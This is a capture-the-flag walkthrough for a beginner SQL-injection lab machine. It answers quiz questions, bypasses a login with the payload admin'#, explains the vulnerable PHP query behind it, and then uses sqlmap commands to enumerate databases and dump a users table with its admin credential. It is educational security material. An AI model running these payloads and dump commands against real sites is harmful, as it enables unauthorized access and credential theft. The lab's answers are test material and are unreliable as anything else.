






| Difficulty |  |  IP Address   |  |
| :--------: |--| :-----------: |--|
|  Very Easy |  | 10.129.78.154 |  |

---

### [ What does the acronym SQL stand for? ]

Structured Query Language

---

### [ What is one of the most common type of SQL vulnerabilities? ]

SQL Injection

---

### [ What does PII stand for? ]

Personally Identifiable Information

---

### [ What does the OWASP Top 10 list name the classification for this vulnerability? ]

Based on the [OWASP page](https://owasp.org/www-project-top-ten/), the classification is: **A03:2021-Injection**

---

### [ What service and version are running on port 80 of the target? ]

Let's run a basic nmap scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 10.129.78.154
```



From the results, we can see that the service and version running on port 80 is **Apache httpd 2.4.38 ((Debian))**

---

### [ What is the standard port used for the HTTPS protocol? ]

443

---

### [ What is one luck-based method of exploiting login pages? ]

Brute-forcing

---

### [ What is a folder called in web-application terminology? ]

Directory

---

### [ What response code is given for "Not Found" errors? ]

Response code: **404**

---

### [ What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains? ]

`dir`

---

### [ What symbol do we use to comment out parts of the code? ]

`#`

---

### [ Submit root flag ]

Let's visit `http://10.129.78.154/`:



We are greeted with a login page.

I first tried default credentials like **admin:admin**. Unfortunately, none of those credentials worked.

As the room suggests, we most likely have to use SQL injection in order to log into an account. 

One of the most common methods of SQLi is to use the comment characters, `#` or `--` to comment out the rest of the query. This will work if the server simply concatenates the user input for username and password directly into the query that is sent over to the database.

Take the following PHP code for eg:

```php
$username=$_POST['username']; # User-specified username.
$password=$_POST['password']; #User-specified password.

$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";
```

If we input username=`test` and password=`test`, then the SQL query that is sent to the DB will be:

```
SELECT * FROM users WHERE username='test' AND password='test'
```

However, what if we input username=`admin'#` and a random password? The SQL query becomes:

```
SELECT * FROM users WHERE username='admin'#' AND password='test'
```

Because of the `#` character, whatever comes after that will become a comment and will not be included in the SQL query. This means that `' AND password='test'` becomes a comment in the PHP code and the SQL query that is sent will be:

```
SELECT * FROM users WHERE username='admin'
```

This query will succeed if there is a user called '**admin**', and we would be able to log into their account!

Let's try using `admin'#` as the username on the website:



It works! We got the root flag.

---

### [ BONUS: USING SQLMAP TO ENUMERATE ADMIN CREDENTIALS ]

If we want to go a bit overkill, we can use `sqlmap` to obtain the admin credentials. Let's first see if the login form on the website is susceptible to SQLi and if so, enumerate the databases present on the DB.

```
sqlmap -u "http://10.129.78.154/" --forms --risk=3 --level=5 --dbs --batch 
```

* *--forms will automatically detect forms that are on the host.*

* *--dbs enumerates databases present on the DB server.*

* *--batch automatically answers prompts by sqlmap during runtime.*



Great, `sqlmap` managed to find a few injection points with the **username** field. From the results, we can see that there are 2 dbs: **appdb** and **information_schema**.

Let's now update our sqlmap command to enumerate the tables in the **appdb** db:

```
sqlmap -u "http://10.129.78.154/" --forms --risk=3 --level=5 -D appdb --tables --batch
```

*(We now use the -D option to specify the target db and the --tables to enumerate tables within that target db)*



There is a table called **users**.

Finally, let's update our sqlmap command once more to dump out all the data in that table:

```
sqlmap -u "http://10.129.78.154/" --forms --risk=3 --level=5 -D appdb -T users --dump --batch
```

*(This time, we use -T to specify the table and --dump to dump out all table contents)*



And we get the admin credentials:

> admin : 328ufsdhjfu2hfnjsekh3rihjfcn23KDFmfesd239"23m^jdf
